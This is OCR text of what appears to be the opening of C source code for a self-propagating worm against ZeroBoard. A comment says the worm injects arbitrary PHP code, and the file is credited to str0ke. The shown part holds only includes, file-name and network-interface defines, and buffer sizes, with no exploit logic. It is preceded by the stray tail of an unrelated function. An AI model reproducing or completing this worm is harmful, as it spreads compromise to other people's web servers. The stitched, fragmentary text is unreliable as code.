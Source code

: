   default:
   return 0;
   break;
 }
 return 0;
}/* 
The worm exploits a vulnerability in ZeroBoard, allowing an attacker to inject arbitrary PHP code. 
/str0ke
*/

/*
** ZeroBoard -1day INE w0rm
*/

#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <sys/socket.h>
#include <netdb.h>
#include <netinet/in.h>
#include <signal.h>
#include <sys/ioctl.h>
#include <net/if.h>
#ifdef __sun__
#include <sys/sockio.h>
#endif /* __SunOS__ */

#define DEBUG_ING
#undef DEBUG_ING

#define TMP_FILE "./tmp.core"
#define CMD_FILE "./cmd.core"
#define PRC_FILE "./proc.core"
#define SCS (0)
#define MIN (1)

#ifdef __linux__
#define DEF_ETH "eth0"
#else
#ifdef __FreeBSD__
#define DEF_ETH "ed0"
#else
#ifdef __sun__
#define DEF_ETH "hme0"
#endif
#endif
#endif

#define MAX_BUF (0x0000ffff)
#define FIR_BUF (0x00000800)
#define SEC_BUF (0x00000400)
#define THR_BUF (0x00000200)
#define MIN_BUF (0x00000100)
